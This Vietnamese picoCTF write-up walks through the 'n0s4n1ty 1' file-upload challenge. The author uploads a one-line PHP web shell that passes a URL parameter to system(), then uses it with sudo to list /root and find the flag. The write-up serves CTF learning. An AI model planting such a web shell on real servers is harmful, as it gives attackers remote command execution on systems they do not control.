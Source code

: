 # n0s4n1ty 1

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image269.png?raw=true)

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image270.png?raw=true)

Xem source code, tôi biết rằng trang web sử dụng `php`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image271.png?raw=true)

Tôi sẽ thử upload 1 file ảnh `.jpg` bình thường:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image272.png?raw=true)

Thông báo upload file thành công:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image273.png?raw=true)

Tôi đã thử truy cập folder `/uploads` nhưng đã bị cấm:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image274.png?raw=true)

Tiếp theo tôi thử tạo 1 payload `.php` với nội dung là:

    <?php
    echo "Hello World!";
    ?>

Sau đó upload file này lên:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image275.png?raw=true)

Thông báo upload thành công, lần này thay vì truy cập folder `/uploads`, tôi sẽ truy cập trực tiếp vào `/uploads/test.php`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image276.png?raw=true)

=> Thành công in ra `Hello World!`. Tiếp theo tôi tạo 1 file `reverse.php` với nội dung là:

    <?php system($_GET['cmd']); ?>

Sau khi upload `reverse.php` thành công, tôi thử thêm tham số `cmd` vào URL:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image277.png?raw=true)

Tiếp theo, thử câu lệnh `ls`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image278.png?raw=true)

Không thu được gì, dựa vào mô tả thử thách, tôi phải xem trong `/root`, nên tôi thay câu lệnh thành `sudo ls root`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image279.png?raw=true)

=> Tìm được file `flag.txt`, tiến hành đọc file này:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image280.png?raw=true)







